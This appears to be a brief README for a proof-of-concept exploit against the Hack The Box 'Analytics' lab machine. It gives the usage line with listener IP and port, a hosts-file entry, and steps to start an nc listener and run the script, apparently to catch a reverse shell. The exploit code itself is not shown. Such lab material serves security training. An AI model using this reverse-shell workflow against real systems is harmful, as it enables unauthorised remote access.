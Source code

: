 # HTB_Analytics

Usage: python3 HTB_Analytics_poc.py \<listener ip\> \<listener port\>

<p>1.echo "10.10.11.233 data.analytical.htb" >> /etc/hosts</p>
<p>2.run nc</p>
<p>3.run HTB_Analytics_poc.py</p>
